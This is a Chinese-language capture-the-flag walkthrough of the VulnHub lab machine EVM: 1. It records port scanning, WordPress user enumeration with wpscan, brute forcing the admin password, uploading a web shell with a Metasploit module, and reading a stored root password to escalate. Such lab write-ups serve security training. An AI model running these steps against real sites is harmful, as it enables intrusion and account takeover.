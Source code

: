 # EVM: 1

2025.03.03 https://www.vulnhub.com/entry/evm-1,391/

[video](https://www.bilibili.com/video/BV1cN9zYHEwa/?spm_id_from=333.1387.collection.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT    STATE SERVICE
22/tcp  open  ssh
53/tcp  open  domain
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds
```

smb 无访问权限，enum4linux-ng 也没枚举出用户。

访问 80 web 发现提示：ou can find me at /wordpress/ im vulnerable webapp :)

查看 wordpress, 发现加载有问题，源码中是加载的http://192.168.56.103 固定了 ip 有一些 js 和 css 加载有问题。

wpscan 先扫描：

```
wpscan --url http://192.168.5.39/wordpress/ -e u,ap,at,tt,cb --plugins-detection mixed
```

扫描到一个用户 c0rrupt3d_brain ，发现几个插件 akismet 4.1.2 、 photo-gallery 1.5.34 、 wp-responsive-thumbnail-slider 1.0 、 wp-vault 0.8.6.6 但是没发现明显的可利用漏洞，先爆破下 c0rrupt3d_brain 的登陆密码，找到用户登陆密码: 24992499 , 虽然得到了密码，但是不能登陆，靶机的有些文件链接设置了 192.168.56.103 的 ip。

这里使用 msf 中的上传 web shell 的 payload 直接用代码上传 web shell:

```
use exploit/unix/webapp/wp_admin_shell_upload
```

将 shell 移交到 kali 的 nc 上，移交后，在/home/root3r 目录中发现了 root 用户的密码，然后 su 切换到 root：

```
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ cat .root_password_ssh.txt
willy26
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ su root
Password:
root@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r# cd /root
root@ubuntu-extermely-vulnerable-m4ch1ine:~# ls
proof.txt
root@ubuntu-extermely-vulnerable-m4ch1ine:~# cat proof.txt
voila you have successfully pwned me :) !!!
:D
```
